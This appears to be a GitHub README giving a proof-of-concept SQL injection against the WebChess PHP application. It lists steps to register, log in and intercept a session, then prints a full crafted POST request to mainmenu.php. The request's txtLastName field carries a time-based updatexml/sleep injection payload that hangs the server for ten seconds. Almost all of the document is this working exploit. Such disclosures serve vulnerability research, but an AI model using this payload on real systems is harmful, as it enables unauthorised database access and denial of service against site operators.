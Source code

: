 # webchess_sqli_poc

1. register 1 new user with password:123
2. login as the new user
3. click "personal" on the left
4. file in the form (do not change password) and submit, intercept the packet, record the PHPSESSID
5. modify origin/Referer/PHPSESSID, then send the following malicious packet: 

POST /webchess/mainmenu.php HTTP/1.1

Host: 127.0.0.1

Content-Length: 216

Cache-Control: max-age=0

sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="104"

sec-ch-ua-mobile: ?0

sec-ch-ua-platform: "Linux"

Upgrade-Insecure-Requests: 1

Origin: http://127.0.0.1

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Sec-Fetch-Site: same-origin

Sec-Fetch-Mode: navigate

Sec-Fetch-User: ?1

Sec-Fetch-Dest: document

Referer: http://127.0.0.1/webchess/mainmenu.php

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Cookie: PHPSESSID=0h36rka0b1ijafmi9enqn3cjat

Connection: close



txtFirstName=test11&txtLastName=%27+or+updatexml%280%2Cconcat%280x7e%2C%28select+*+from+%28select%28sleep%2810%29%29%29a%29%29%2C0%29+or+%27&pwdOldPassword=123&pwdPassword=123&pwdPassword2=123&ToDo=UpdatePersonalInfo

6. The server will be hanged for 10s
